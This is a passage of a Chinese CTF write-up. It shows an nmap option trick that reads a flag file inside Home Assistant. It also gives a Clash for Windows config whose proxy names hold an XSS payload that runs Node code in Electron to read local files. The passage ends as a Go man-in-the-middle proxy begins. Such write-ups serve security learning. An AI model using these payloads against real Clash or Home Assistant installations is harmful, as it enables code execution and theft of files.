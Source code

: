 
Home Assistant 的 integrations 真 TM 得多。去源代码里头 ripgrep 了 `open\(.+\)` 一无所获。

第二阶段提示用 nmap，那就简单了：

```shell
-F -T4 --min-rate 10 --host-timeout 5s -iL /flag.txt -oN /config/flag
```

然后建个备份下下来就好了。

## 非法所得

这题挺不错的，VNC 和 Electron 还能这么用，学到了。

首先很明显是 <https://github.com/Fndroid/clash_for_windows_pkg/issues/2710>。
然后可以发现 `alert()` 能用（虽然弹了之后就要删环境重来了，因为那个弹框关不掉）。

于是获得第一个 flag，需要读文件：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`alert(require('fs').readFileSync('/app/profiles/flag.yml'));`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`alert(require('fs').readFileSync('/app/profiles/flag.yml'));`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`alert(require('fs').readFileSync('/app/profiles/flag.yml'));`);>
```

第二个 flag 需要我们当中间人。先找个[代理的实现](https://gist.github.com/yowu/f7dc34bd4736a65ff28d)改一改：

```go
package main

import (
	"flag"
	"log"
	"net"
	"net/http"
	"strings"
)

// Hop-by-hop headers. These are removed when sent to the backend.
// http://www.w3.org/Protocols/rfc2616/rfc2616-sec13.html
var hopHeaders = []string{
	"Connection",
	"Keep-Alive",
	"Proxy-Authenticate",
```